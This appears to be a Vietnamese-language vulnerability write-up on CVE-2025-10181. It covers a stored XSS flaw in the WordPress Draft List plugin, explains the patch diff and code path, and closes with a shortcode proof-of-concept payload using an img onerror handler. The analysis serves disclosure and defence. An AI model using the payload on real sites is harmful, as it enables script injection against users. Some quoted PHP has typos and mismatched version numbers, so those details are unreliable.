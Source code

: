```yaml
---
title: CVE-2025-10181 Analysis & POC
description: Security Vulnerability in WordPress  Draft List Plugin.
date: 2025-09-22 15:38:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


- **CVE ID**: [CVE-2025-10181](https://www.cve.org/CVERecord?id=CVE-2025-10181)
- **Product**: [WordPress  Draft List Plugin](https://wordpress.org/plugins/simple-draft-list)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 2.6
- **CVSS severity**: Low (6.5)
- **Required Privilege**: Contributor

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- ** Draft List**: v3.3.23(vul) và v2.6.1(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis
### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **inc/create-lists.php**.

**Bản lỗi**:

```php
$template   = html_entity_decode( $template );
```

**Bản vá**:

```php
$allowed_list = draft_list_allowed_html();

$template   = wp_kses( html_entity_decode( $template ), $allowed_list );

function draft_list_allowed_html() {

	$allowed_list = array(
		'a'          => array(
			'class' => array(),
			'href'  => array(),
			'rel'   => array(),
			'title' => array(),
		),
		'abbr'       => array(
			'title' => array(),
		),
		// Other logic
	);

	return $allowed_list;
}
```

Bản vá sử dụng [`wp_kses`](https://developer.wordpress.org/reference/functions/wp_kses/) để loại bỏ tất cả thẻ, thuộc tính hoặc giá trị không hợp lệ => Ngăn chặn tấn công XSS từ nội dung người dùng.

![Patch Diff](images/posts/2025-09-22-CVE-2025-10181/patch_diff.png)

### How It Work?
Trong cùng file **inc/create-lists.php**:

1. Shortcode với tên `drafts` được đăng ký bằng hàm `add_shortcode` nhận `draft_list_shortcode` làm callback.

```php
add_shortcode( 'drafts', 'draft_list_shortcode' );
```

2. `draft_list_shortcode` kiểm tra tồn tại và lấy các **attribute** của shortcode, sau đó trả về kết quả của `draft_list_generate_code`, với các đối số là những biến đã được khởi tạo và xử lý trước đó.

```php
function draft_list_shortcode( $paras = '' ) {
	// other logic
	$template  = '';

	if ( array_key_exists( 'template', $paras ) ) {
		$template = $paras['template'];
	}
	// other logic
	
	return draft_list_generate_code( $limit, $type, $order, $scheduled, $folder, $date, $created, $modified, $template, $words, $pending );
}
```

3. `draft_list_generate_code` là hàm dùng để tạo mã **HTML** danh sách các bài viết nháp (**drafts**) dựa trên các tham số đầu vào.

```php
function draft_list_generate_code_template_only( $drafts, $template = '', $list_limit = 0, ... ) {
    $code = '';
    $template = html_entity_decode( $template );
	$erorr = false

	// Kiểm tra template để đảm bảo rằng nó có chứa tag bắt buộc {{draft}} hoặc %draft%.
	if ( strpos( $template, '%draft%' ) === false && strpos( $template, '{{draft}}' ) === false ) {
		$code .= draft_list_report_error( __( 'The template must include the {{draft}} tag', 'simple-draft-list' ), $plugin_name, false );
		$error = true;
	}

	if (!error){
		$status = array( 'draft' );

		// Lấy danh sách có post có status=draft 
		$args = array(
			'post_status' => $status,
			'post_type'   => $type,
			'numberposts' => 99,
			'orderby'     => $sort_field,
			'sort_order'  => $sort_sequence,
		);

		$drafts = get_posts( $args );

		// Duyệt các draft
		$valid_draft = 1;
		foreach ( $drafts as $draft_data ) {
			if ( $valid_draft > $list_limit && $list_limit > 0 ) break;

			$draft_title = $draft_data->post_title;

			if ( $list ) $this_line = "\t<li>"; else $this_line = '';
			$this_line .= $template;
			if ( $list ) $this_line .= "</li>";

			$code .= $this_line . "\n";
		}
	}

    return $code;
}
```

Với mỗi `$draft_data`, nội dung của `$template` được concat trực tiếp vào `$this_line`.

Sau đó `$this_line` được concat vào `$code`.

Cuối cùng `$code` là toàn bộ HTML được trả về và hiển thị trong trình duyệt.

**Điều quan trọng**:

- Hàm không **lọc** hay **escape** `$template` trước khi concat, nên nếu `$template` chứa payload XSS, payload đó sẽ được in thẳng ra HTML.
- Ta cần điều kiện `!error`=`true` để `foreach ( $drafts as $draft_data )` được diễn ra => cần có `{{draft}}` hoặc `%draft%` trong `$template`

---

## Exploit 
### Detect XSS
Tạo post mới với shortcode `drafts` chứa attribute `template` chứa XSS payload và **save draft**:

```
[drafts template='{{draft}} <img src=x onerror=alert(document.domain)>']
```

---